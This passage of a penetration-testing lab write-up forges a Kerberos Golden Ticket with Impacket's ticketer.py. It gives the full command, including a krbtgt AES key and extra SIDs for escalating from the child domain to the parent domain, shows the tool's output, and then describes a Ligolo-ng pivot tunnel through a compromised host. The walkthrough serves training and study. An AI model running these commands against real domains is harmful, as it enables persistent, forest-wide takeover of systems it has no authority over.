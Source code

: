 </div>

<p class="indent-paragraph">
  The <code>ticketer.py</code> command leverages several options to forge a Golden Ticket for <code>corpmngr</code><span class="codefix">:</span> <code>-domain</code> sets the Kerberos realm<code>child.warfare.corp</code><span class="codefix">,</span> <code>-aesKey</code> provides the krbtgt AES256 key for ticket encryption, and <code>-domain-sid</code> specifies the domain’s Security Identifier. The <code>-groups</code> flag injects the primary group RID, <code>516</code> for Domain Users, and <code>-user-id</code> defines the user’s RID <code>1106</code><span class="codefix">.</span> <code>-extra-sid</code> appends two additional SIDs: the parent domain’s Domain Users SID (ending in <code>-516</code>) and the well-known <code>S-1-5-9</code> (Enterprise Domain Controllers), ensuring the ticket carries the necessary group memberships across both child and parent domains.
</p>

```
~$ proxychains /root/.local/bin/ticketer.py -domain child.warfare.corp -aesKey ad8c273289e4c511b4363c43c08f9a5aff06f8fe002c10ab1031da11152611b2 -domain-sid S-1-5-21-3754860944-83624914-1883974761 -groups 516 -user-id 1106 -extra-sid S-1-5-21-3375883379-808943238-3239386119-516,S-1-5-9 'corpmngr'
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
/root/.local/bin/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())

[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncASRepPart
[*] Saving ticket in corpmngr.ccache
```

<p class="indent-paragraph">
  Despite the deprecation warnings about using <code>datetime.utcnow()</code> (which recommend switching to timezone-aware objects), the <code>ticketer.py</code> script successfully generated a valid TGT for the <code>corpmngr</code> user that embeds both child and parent domain privileges. The final ticket was stored in <code>corpmngr.ccache</code><span class="codefix">,</span> confirming successful ticket creation.
</p>

### 📡 Launching the Ligolo Proxy

<p class="indent-paragraph">
  To synchronize the attacker’s system clock via NTP, full IP-level access to the internal subnet <code>192.168.98.0/24</code> was required. A Ligolo-ng pivot was deployed by creating and activating a TUN interface named <code>ligolo</code><span class="codefix">,</span> then routing the internal network range through it. This established an encrypted tunnel through the compromised host, allowing <code>ntpdate</code> to query the Domain Controller’s time.
</p>
